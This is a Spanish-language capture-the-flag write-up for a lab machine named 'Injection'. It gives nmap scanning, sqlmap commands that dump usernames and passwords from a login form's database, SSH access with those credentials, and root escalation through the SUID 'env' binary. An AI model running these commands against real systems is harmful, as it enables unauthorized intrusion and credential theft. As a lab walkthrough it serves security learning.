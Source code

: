 # Injection

* Máquina **atacante** -> 172.17.0.1
* Máquina **objetivo** -> 172.17.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```
![Resultado escaneo](/Capturas/2024-10-19_16-23.png)

### Inyección SQL

Tras el escaneo, vemos que la máquina **objetivo** tiene dos puertos abiertos, el **22**(*ssh*) y el **80**(*http*). Así que procedemos a ir a nuestro navegador y ver qué tenemos corriendo por el puerto **80**. Esto nos lleva a un **panel de login**, por lo que procederemos a realizar un **ataque de inyección SQL** con *sqlmap*:
```shell
sqlmap -u http://172.17.0.2/ --forms --dbs --batch
```
![resultado bbdd](/Capturas/2024-10-19_16-48.png)

Tras realizar una búsqueda de BBDD, encontramos una interesante llamada **register**, por lo que enumeraremos las tablas en busca de más información:
```shell
sqlmap -u http://172.17.0.2/ --forms -D register --tables --batch
```
![resultado tablas](/Capturas/2024-10-19_16-51.png)

Vemos que hay una tabla llamada **users**, así que continuamos enumerando ahora las columnas de dicha tabla:
```shell
sqlmap -u http://172.17.0.2/ --forms -D register -T users --columns --batch
```
![resultado columnas](/Capturas/2024-10-19_16-55.png)

Encontramos dos columnas: **passwd** y **username**. Y ya sólo nos queda volcar los registros contenidos en dichas columnas:
```shell
sqlmap -u http://172.17.0.2/ --forms -D register -T users -C passwd,username --dump --batch
```
![resultado registros](/Capturas/2024-10-19_16-59.png)

Y ya tenemos un **usuario** y una **contraseña** con los que podemos probar a entrar.

### Acceso vía SSH

Accedemos a la máquina **objetivo** vía *ssh* con las credenciales encontradas:

![acceso ssh](/Capturas/2024-10-19_17-04.png)

### Escalada de privilegios

Enumeramos los binarios SUID de la máquina **objetivo**:
```shell
find / -perm -4000 2>/dev/null
```
![enumeracion de binarios](/Capturas/2024-10-19_17-11.png)

Escalamos privilegios aprovechándonos del binario **env**:
```shell
env /bin/sh -p
```
![escalada](/Capturas/2024-10-19_17-14.png)

Y ya somos usuario **root** :triangular_flag_on_post: